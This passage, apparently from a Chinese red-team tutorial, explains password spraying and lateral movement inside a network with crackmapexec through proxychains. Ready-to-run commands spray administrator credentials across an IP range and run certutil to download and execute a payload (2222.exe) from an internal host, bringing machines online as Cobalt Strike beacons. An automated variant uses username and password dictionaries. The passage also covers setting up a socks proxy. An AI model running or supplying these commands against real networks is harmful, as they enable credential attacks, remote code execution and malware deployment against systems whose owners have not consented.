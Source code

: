 当然这里还有很多的操作，这里只是演示一部分。

```
密码喷射域登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'

密码喷射本地登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' --local-auth

密码喷射本地登录命令执行：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'whoami' --local-auth

cs上线为反向连接，需要代理转发，转发上线
密码喷射本地登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth


密码喷射域登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'

密码喷射本地&域登录命令执行全自动上线：
写两个字典，一个放用户名，另一个放密码
proxychains crackmapexec smb 192.168.20.10-30 -u user.txt -p pass.txt -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'
```

### 实操演示

这里首先是获取其中一个system权限，然后设置代理，让工具能够连接上内网，才能对内网进行测试。

#### 设置转发代理

这里设置一个socks转发代理。

![image-20230630095249907](https://s2.loli.net/2023/06/30/Oma3LHnDcqYCRh8.png)

#### 添加代理转发

获取端口后，在代理工具的配置文件中添加相应的代理即可。

```
vim /usr/local/etc/proxychains4.conf
```

![image-20230630095506307](https://s2.loli.net/2023/06/30/hZlWOSUEYV82dbC.png)

#### 使用测试

 密码喷射测试域账户密码。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'
```

